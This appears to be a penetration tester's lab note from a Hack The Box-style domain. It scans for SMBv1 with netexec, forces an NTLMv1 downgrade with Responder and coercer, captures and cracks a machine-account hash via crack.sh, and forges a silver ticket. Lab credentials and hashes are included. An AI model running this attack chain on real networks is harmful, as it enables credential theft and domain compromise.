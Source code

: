 # SMBv1 Exploit

Check: 

```
$ netexec smb 192.168.3.0/24 -u bob -p 'Passw0rd1!' --sessions
SMB         192.168.3.202   445    WEB              [*] Windows Server 2012 R2 Standard 9600 x64 (name:WEB) (domain:htb.local) (signing:False) (SMBv1:True)
SMB         192.168.3.201   445    DEV              [*] Windows Server 2019 Standard 17763 x64 (name:DEV) (domain:htb.local) (signing:False) (SMBv1:True)
SMB         192.168.3.203   445    DC1              [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC1) (domain:htb.local) (signing:True) (SMBv1:False)
```

It has: `SMBv1:True`.

## Exploit

Example Killchain: SpoolSample [MS-RPRN] > Net-NTLMv1 Hash (Net-NTLMv1 Response) > NTLM Hash (NTHash) > Silver Ticket

1. Change `/etc/responder/Responder.conf`, `Challenge = 1122334455667788`
2. Start Responder with `--lm` to disable SSP: `responder -I tun0 --lm`
3. exploit with coercer to get hash like: `$ coercer coerce -l 10.10.16.138 -t 192.168.3.201 --auth-type smb -u mane -p 'Passw0rd1!'`
    ```
    [SMB] NTLMv1 Client   : 10.13.38.17
    [SMB] NTLMv1 Username : HTB\DEV$
    [SMB] NTLMv1 Hash     : DEV$::HTB:11EBE0BFBF241EE1D55DD9F5535254FCAF77876B9D200341:11EBE0BFBF241EE1D55DD9F5535254FCAF77876B9D200341:1122334455667788
    ```

4. submit hash to crack.sh : `NTHASH:11EBE0BFBF241EE1D55DD9F5535254FCAF77876B9D200341`
5. email will send Key: `fc64914083cfe79b3a01cd44550044fe`, this is ntlm hash.
6. silver ticket exploit

# Reference

+ https://crack.sh/netntlm/
+ https://github.com/NotMedic/NetNTLMtoSilverTicket
